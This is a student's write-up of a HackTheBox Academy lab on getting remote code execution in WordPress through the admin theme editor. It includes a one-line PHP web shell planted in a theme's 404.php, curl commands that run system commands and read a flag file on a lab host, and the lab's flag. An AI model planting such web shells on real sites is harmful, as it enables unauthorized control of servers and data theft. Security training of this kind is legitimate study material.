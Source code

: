```yaml
---
sticker: emoji//1f43c
---
```


# Remote Code Execution (RCE) via the Theme Editor

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

### Theme Editor

![image](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

### Selecting Theme

![image](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

### Twenty Seventeen Theme - 404.php

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

### RCE

```shell-session
smoothment@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

**Question**

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250220134711.png)

Let's save the file with these contents:

```php
<?php

system($_GET['cmd']);
```

Now, let's edit the theme and upload the shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250220135856.png)

Once we've edit the `404.php` file, let's save it, and use curl:

```
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)

```

We can now read the contents under `/home/wp-user/flag.txt`:

```
curl -X GET "http://94.237.53.112:46761/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/wp-user/flag.txt"

HTB{rc3_By_d3s1gn}
```

Flag is:

```
HTB{rc3_By_d3s1gn}
```
